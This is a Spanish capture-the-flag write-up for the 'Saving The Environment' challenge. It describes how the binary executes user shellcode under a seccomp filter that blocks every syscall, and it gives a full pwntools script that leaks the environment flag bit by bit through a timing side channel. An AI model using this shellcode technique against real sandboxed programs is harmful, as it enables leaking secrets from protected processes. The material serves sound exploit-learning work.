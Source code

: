 # Saving The Environment

Este ejercicio nos da un programa que imprime las variables de entorno del usuario que lo ejecute.\
El usuario que ejecuta el binario en remoto tiene la variable `FLAG=laflag`, donde está la flag que queremos conseguir. Parece que simplemente hay que ejecutar el programa y ya, pero si lo hacemos, donde debería aparecer la flag, saldrá `FLAG=... Lets not print this one...`.  Esto se debe a lo siguiente:

El programa hace el siguiente bucle:

```c
found_flag = false;
for (i = 0; envp[i] != (char *)0x0; i = i + 1) {
    check = strncmp(envp[i],"FLAG=",5);
    if (check == 0) {
        puts("FLAG=... Lets not print this one...");
        found_flag = true;
    }
    else {
        puts(envp[i]);
    }
}
if (!found_flag) {
    puts("Error: FLAG not found in environment variables");
    exit(1);
}
```

Comprueba cada línea que se imprime y, si contiene `FLAG=`, muestra otro texto en su lugar.

Si nos fijamos en cómo funciona el programa, podemos ver que, después de imprimir las variables, nos pide 2 inputs:

```c
puts("Environment Variables:");
print_env(envp);

code_len = 0;
__isoc99_scanf("%u", &code_len);

if (0x200 < code_len) {
    puts("You'd like uh");
    exit(1);
}
```

Primero nos pide un tamaño.

```c
read(0, code_buffer, (ulong)code_len);
```

Después, nos pide el contenido. Y si miramos más atrás:

```c
code_buffer = (byte *)mmap((void *)0x500000,0x200,7,0x22,-1,0);
```

La zona donde se guarda es una región de memoria con permisos de ejecución.

Aún por encima, el programa ejecuta el código de esa zona:

```c
(*(code *)code_buffer)(0,0,0,0,0,0);
```

Parece que, como tenemos el control, podemos simplemente hacer un ret2syscall. Pero el programa hace lo siguiente:

```c
seccomp_filter = seccomp_init(0);
seccomp_rule_add(seccomp_filter,0,1,0);
seccomp_rule_add(seccomp_filter,0,0,0);
seccomp_load(seccomp_filter);
seccomp_release(seccomp_filter);
```

Estos son filtros **seccomp** que limitan lo que se puede llamar. En este caso, usando la herramienta [Seccomp Tools](https://github.com/david942j/seccomp-tools) podemos ver que **todas las syscalls están bloqueadas**:

```c
line  CODE  JT  JF  K
=================================
0000: 0x20  0x00 0x00 0x00000004 A = arch
0001: 0x15  0x00 0x03 0xc000003e if (A != ARCH_X86_64) goto 0005
0002: 0x20  0x00 0x00 0x00000000 A = sys_number
0003: 0x35  0x00 0x01 0x40000000 if (A < 0x40000000) goto 0005
0004: 0x15  0x00 0x00 0xffffffff /* no-op */
0005: 0x06  0x00 0x00 0x00000000 return KILL
```

Como el programa ejecuta nuestro shellcode pero no podemos hacer ninguna syscall, la idea es **crear un ataque basado en tiempo** para filtrar bit a bit la flag usando condicionales y bucles.

Para esto necesitamos saber la dirección en memoria de la flag.\
Sabemos que en remoto la flag está en la línea 5 de las variables de entorno. Si conseguimos hacer un leak de esa misma línea en local (aunque no sea la flag real), podremos calcular el offset necesario para acceder a ella en remoto. Con GDB se puede obtener ese offset comparando con `rbp`.

El resto es implementar un shellcode que lea cada byte y nos permita reconstruir la flag caracter a caracter.

```python
#!/usr/bin/env python3

from pwn import *
import time

exe = ELF("./chall")

context.binary = exe
context.terminal = ["kitty"]
context.log_level = 'error'
gdbscript = """
b *0x401471
c
"""

def get_bit(offset, bit):
    p = process(exe.path)
    #p = gdb.debug(exe.path, gdbscript)

    shellcode = asm(f'''
        mov rdi, [rbp + 0x150]
        xor rax, rax
        xor rbx, rbx

        mov al, byte ptr [rdi + {offset}]
        mov bl, {1 << bit}
        and al, bl

        imul rax, 0x20000000
    loop_start:
        cmp rax, r11
        je loop_finished
        inc r11
        imul ebx, 0x13
        jmp loop_start
    loop_finished:
        syscall
    ''', arch='amd64')
    
    p.recv(timeout=0.2)
    p.sendline(str(len(shellcode)).encode())
    p.send(shellcode)
    start_time = time.time()

    try:
        p.recvall(timeout=2)
    except EOFError:
        pass
    now = time.time()
    diff = now - start_time
    print(diff)

    if diff > 0.5:
        return 1
    else:
        return 0

flag = ''
offset = 0
while '}' not in flag:
    bits = []
    for i in range(8):
        bits.append(get_bit(offset, i))

    byte_completo = 0
    for bit in reversed(bits):
        byte_completo = (byte_completo << 1) | bit

    flag += chr(byte_completo)
    print(f"Flag parcial: {flag}")
    offset += 1

print(f"Flag final: {flag}")
```

```bash
$ python3 solve.py
Flag parcial: s
Flag parcial: sn
Flag parcial: sna
Flag parcial: snak
Flag parcial: snake
. . .
Flag final: snakeCTF{SECRET}
```
